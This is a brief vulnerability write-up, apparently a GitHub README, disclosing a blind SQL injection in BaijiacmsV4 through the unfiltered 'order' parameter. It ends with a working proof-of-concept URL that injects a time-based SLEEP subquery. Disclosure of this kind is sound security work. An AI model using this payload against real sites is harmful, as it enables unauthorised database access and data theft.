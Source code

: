 # Baijiacms officials link

baijiacms: https://github.com/baijiacms/baijiacmsV4

# Why make this

BaijiacmsV4 does not open the issue,I can't feedback any issue,it's only possible to write up vulnerability here.

There is no filtering on parameter "order"，resulting in a vulnerability of blind sql injection,attackers can fetch data in databases easily，the vulnerability is so harmful.

PS:I submit the issue in this programer's another product which opens issue function 
https://github.com/baijiacms/baijiacmsV2-MultiManager/issues/2

# Poc

http://localhost/baijiacmsV4-master/index.php?act=index&beid=1&by=&cate=&do=goods&isdiscount=&ishot=&isnew=&isrecommand=&issendfree=&istime=&keywords=&m=eshop&merchid=&mod=mobile&op=get_list&order=(SELECT * FROM (SELECT(SLEEP(5))))
